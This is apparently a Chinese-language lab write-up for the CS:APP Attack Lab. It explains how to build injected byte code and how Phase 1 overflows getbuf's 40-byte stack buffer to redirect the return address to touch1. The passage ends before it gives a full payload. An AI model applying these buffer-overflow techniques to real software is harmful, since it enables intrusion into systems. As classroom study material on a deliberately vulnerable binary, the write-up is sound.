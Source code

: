 大体流程就是

1. 构造字节码
2. 使用`hex2raw`来将字节码生成为对应的字符串
3. 将生成的字符串流入`ctarget -q`或`rtarget -q`

```shell
./hex2raw < phase_1.txt | ./ctarget -q
```

由自己写的汇编构造字节码的时候，可以这么操作，先编译为目标文件后进行反汇编，如下

```shell
gcc -c phase_2.s
objdump -d phase_2.o
```

## Code Injection

主要思路是通过缓冲区溢出，先在栈里注入自己的代码（字节码），然后溢出后修改`ret`的地址为自己注入的代码所在的地址。这样，你注入的代码就会被执行了。

```c
void test()
{
  int val;
  val = getbuf();
  printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

在调用`getbuf()`的时候，我们就要输入我们构造的字符串，进行缓冲区溢出攻击了

### Phase 1

我们要跳转到`touch1`函数去，该函数不用带参数，所以我们不用准备参数

```c
void touch1()
{
  vlevel = 1; /* Part of validation protocol */
  printf("Touch1!: You called touch1()\n");
  validate(1);
  exit(0);
}
```

在汇编代码里头，可以找到`<touch1>`的地址为`4017c0`，我们只需要通过溢出，将`ret`的地址改写成这个就行了。所以我们得再看看，程序为这个函数分配了多少的栈空间

`getbuf()`的汇编代码如下，可以看到分配了`0x28`即40字节。

```
00000000004017a8 <getbuf>:
  4017a8: 48 83 ec 28           sub    $0x28,%rsp
  4017ac: 48 89 e7              mov    %rsp,%rdi
  4017af: e8 8c 02 00 00        callq  401a40 <Gets>
  4017b4: b8 01 00 00 00        mov    $0x1,%eax
  4017b9: 48 83 c4 28           add    $0x28,%rsp
  4017bd: c3                    retq   
  4017be: 90                    nop
  4017bf: 90                    nop
```
